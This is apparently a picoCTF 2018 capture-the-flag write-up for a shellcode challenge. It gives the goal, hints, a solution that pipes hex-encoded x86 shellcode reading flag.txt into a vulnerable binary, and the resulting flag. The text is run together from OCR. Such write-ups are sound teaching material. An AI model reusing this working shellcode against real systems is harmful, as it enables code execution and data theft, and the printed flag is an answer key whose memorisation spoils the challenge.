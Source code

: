 #LEVELGOAL

Thisprogram[1]executesanyinputyougiveit.Canyougetashell?Youcanfindtheprogramin/problems/shellcode_2_0caa0f1860741079dd0a66ccf032c5f4ontheshellserver.Source[2].

#HINTS

(1)Maybetrywritingsomeshellcode?(2)Youalsomightbeabletofindsomegoodshellcodeonline.

#SOLUTION

```
nikel@pico-2018-shell-1:/problems/shellcode_2_0caa0f1860741079dd0a66ccf032c5f4$ python -c 'print("31c031db31c931d2eb325bb00531c9cd8089c6eb06b00131dbcd8089f3b00383ec018d0c24b201cd8031db39c374e6b004b301b201cd8083c401ebdfe8c9ffffff666c61672e747874".decode("hex"))'|./vuln
Enter a string!
11112[1̀1̀
$̀19t̀flag.txt
Thanks! Executing now...
picoCTF{shellc0de_w00h00_8b811b44}
```

#FLAG

picoCTF{shellc0de_w00h00_8b811b44}
